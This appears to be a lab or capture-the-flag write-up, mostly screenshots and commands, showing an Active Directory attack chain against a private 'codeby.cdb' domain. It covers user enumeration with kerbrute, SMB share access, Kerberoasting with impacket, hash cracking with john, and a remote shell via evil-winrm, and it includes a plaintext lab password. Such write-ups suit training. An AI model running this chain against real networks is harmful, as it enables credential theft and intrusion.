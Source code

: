![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
smbmap -u "amaslova" -p "NeverGiv3up" -H 192.168.2.4 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ff4437ae-ad83-4ff8-a001-f5bab1712848)
```
impacket-GetUserSPNs 'codeby.cdb/amaslova:PASS' -dc-ip 192.168.2.4 -outputfile hashpass.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29c39627-ac70-4a32-8348-cfea43f12512)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hashpass.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9dde67b3-b7c3-4d3d-82a3-3fd03297327f)
```
evil-winrm -i 192.168.2.4 -u 'dsemenov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b924c1de-6064-458e-aa9d-581579ab75cd)


